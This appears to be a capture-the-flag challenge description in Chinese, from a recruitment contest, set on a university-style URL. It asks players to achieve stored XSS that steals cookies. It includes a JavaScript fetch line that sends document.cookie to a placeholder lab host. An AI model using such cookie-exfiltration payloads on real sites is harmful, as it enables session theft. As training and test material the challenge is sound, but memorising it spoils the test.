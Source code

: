 ## Realworld XSS


目标：在"https://i.hdu.edu.cn/mnews/_web/_ids/user/api/userInfo/edit0.rst?act=control&_p=YXM9MA__"实现存储型XSS窃取Cookie，然后在该网址的console执行下面的指令唤醒机器人访问

```js
fetch('https://YOUR-LAB-HOST/?cookie=' + document.cookie,{mode: 'no-cors'})
```

注意：请先访问https协议下的靶机接受SSL证书。

该附件允许你搭建在本地运行的环境，但其中的代码与挑战并没有太大关联。建议自己测试成功后再唤醒机器人。

任何问题可以找招新群`web-弟中之弟`询问

P.S. 镜像除环境变量外即为发布到dockerhub上的jesselingard/realworld_xss版本。题目不会窃取你的个人信息


